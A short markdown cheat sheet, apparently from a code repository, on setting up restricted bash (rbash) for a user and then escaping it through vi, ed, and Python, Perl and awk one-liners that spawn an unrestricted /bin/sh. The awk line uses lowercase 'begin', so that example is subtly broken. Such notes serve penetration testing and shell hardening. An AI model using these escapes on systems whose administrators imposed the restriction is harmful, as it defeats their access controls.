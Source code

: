# rbash

restired bash

## setup

### enabling for a user

    cd /bin
    ln -s bash rbash

    useradd -m ruser
    usermod --shell /bin/rbash ruser

    grep -rni ruser /etc/passwd

### start directly

    bash -r

    cd /etc/
    -rbash: cd: restricted

## bypass rbash

### editors

#### vi

    :set shell=/bin/bash
    :shell
    cd /etc

#### ed

    ed
    !'/bin/sh'
    cd /etc
    exit
    q

### one liner

#### python

    python -c "import os; os.system('/bin/sh')"

#### perl

    perl -e "system('/bin/sh')"

#### awk

    awk 'begin {system("/bin/sh")}'
    cd /etc; pwd
